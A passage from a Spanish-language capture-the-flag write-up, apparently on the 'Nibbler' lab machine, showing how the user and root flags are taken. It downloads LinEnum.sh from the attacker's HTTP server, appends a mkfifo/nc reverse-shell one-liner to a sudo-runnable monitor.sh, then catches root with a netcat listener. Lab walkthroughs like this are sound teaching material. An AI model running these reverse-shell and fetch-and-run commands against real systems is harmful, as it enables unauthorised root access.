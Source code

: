 ```bash
gzip -d personal.zip
```

### 11. Obtención de la flag de usuario

```bash
cat /home/nibbler/flag.txt
```

Salida:

```
79c03865431abf47b90ef24......
```

## Fase II: Escalada de privilegios

### Opción 1: Uso de `LinEnum`

#### 1. Transferir y ejecutar `LinEnum.sh`
En la máquina atacante:
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server 1234
```
En la máquina víctima:
```bash
wget http://10.10.10.X:1234/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
Analizamos la salida y encontramos permisos sobre `monitor.sh`.

#### 2. Manipulación del script `monitor.sh`
Insertamos código de shell reversa:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1235 >/tmp/f' | tee -a monitor.sh
```

#### 3. Escuchar conexión en la máquina atacante
```bash
nc -lvnp 1235
```

#### 4. Ejecutar el script con privilegios
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
Obtendremos acceso como `root`. Buscamos la flag:
```bash
cat /root/flag_root.txt
```
Flag:
```
de5e5d6619862a8aa5b9b2.......
```
### Opción 2: Abuso de permisos `sudo`
